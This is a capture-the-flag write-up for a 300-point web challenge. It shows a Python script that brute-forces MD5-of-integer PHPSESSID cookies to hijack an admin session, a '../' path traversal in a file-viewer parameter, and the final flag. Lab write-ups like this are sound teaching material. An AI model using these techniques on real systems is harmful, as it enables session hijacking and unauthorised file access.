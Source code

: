 
**Title :** DeepDive Interception
**Author :** Astek
**Category :** Web
**Solves :** <40
**Points :** 300
**Provided files :** None
**Description :**

```
Listen carefully to what you hear. 
Intercept communications in transit and learn as much as possible.
```

# Write Up

### 1. Understanding how to application works

At first, a page containing only one button `Intercept` is displayed to us.
![](../../../attachments/Pasted%20image%2020241025201509.png)

If we click the button, we can intercept message from Anderson. 
**Do not read it. It is not useful.**
At the bottom, we can see a `DISCARD` button.
![](../../../attachments/Pasted%20image%2020241025201651.png)

If we click on `DISCARD0, we are back to the start.
![](../../../attachments/Pasted%20image%2020241025201719.png)

At first I was like, *huh... there is no attack surface ?*

So I tried to understand a little bit more what was done in the backend and where could be the vuln.

### Finding the vulnerable spot

So, I opened my best BurpSuite and started messing with those 3 pages.

I quickly discovered that when we click on `INTERCEPT` the following happens :
1. GET /index.php answers with 302 to /home.php
2. GET /home.php answers with 302 to /guest.php
3. GET /guest.php

**But hey ??? I've never seen that `home.php` before**

Here is the full `/home.php` request
![](../../../attachments/Pasted%20image%2020241025202933.png)

I was like, *this is weird right ? Why would the application requires a router ? How does the router know where to redirects me ?*

The only answer I found was the `PHPSESSID` cookie. 
So, I tried messing with it. I removed it, replaced it, tried some SQL injection on it but I had no clue of what it could be.

So, as a last breath before going right to an other web challenge, I sent the cookie over https://crackstation.net/ and WOW !!

![](../../../attachments/Pasted%20image%2020241025203513.png)

My first thought was *is that normal ? How are formed PHPSESSIDs by default ?*
After some research, I discovered that **no, this is not default behaviour...**

So, I made a script to bruteforce the first 1000 PHPSESSIDs. 

```python
import requests
import hashlib

url = "http://challenges.challenge-ecw.eu:33499/home.php"
headers = {
	"User-Agent": "Mozilla/5.0", 
	"Accept-Language": "en-US,en;q=0.5", 
	"Accept-Encoding": "gzip, deflate, br", 
	"Referer": "http://challenges.challenge-ecw.eu:33499/", 
	"Connection": "keep-alive", 
	"Upgrade-Insecure-Requests": "1", 
	"Priority": "u=0, i"
}

for k in range(1000) : 

    print(f"Testing for {k}")

    phpsessid = hashlib.md5(str(k).encode()).hexdigest()
    cookies = {"PHPSESSID": phpsessid}

    response = requests.get(url, headers=headers, cookies=cookies)

    if len(response.text) != 5892 : # Default response for invalid token
        print(response.text)
```

**With PHPSESSID = MD5(500), the servers responds with an other page** (i.e. `PHPSESSID=cee631121c2ec9232f3a2f028ad5c89b`)

### Admin panel

![](../../../attachments/Pasted%20image%2020241025205148.png)

I clicked on `Recipe` and found the first part of the flag

![](../../../attachments/Pasted%20image%2020241025205506.png)

Then, I clicked `Back to home` and then to `Profile`
Here is what is displayed in `/profile.php`

![](../../../attachments/Pasted%20image%2020241025205820.png)

I uploaded a profile picture and clicked on it.

This sent me to `http://challenges.challenge-ecw.eu:38722/view_file.php?file=profile.png`

I tried removing the `profile.png` and it listed files in the upload folder.

![](../../../attachments/Pasted%20image%2020241025210041.png)

Clicking to `profile.png` redirected me to `http://challenges.challenge-ecw.eu:38722/view_file.php?folder=uploads&file=profile.png`

I juste add to go to `http://challenges.challenge-ecw.eu:38722/view_file.php?folder=../` to view that there was a `super_secret.txt` exposed

![](../../../attachments/Pasted%20image%2020241025210157.png)

Clicking on it gave me the second part of the flag.

![](../../../attachments/Pasted%20image%2020241025210230.png)

## Flag

`ECW{S@cUr3_yOur_C0ok13s_6Jw91wsMmD}`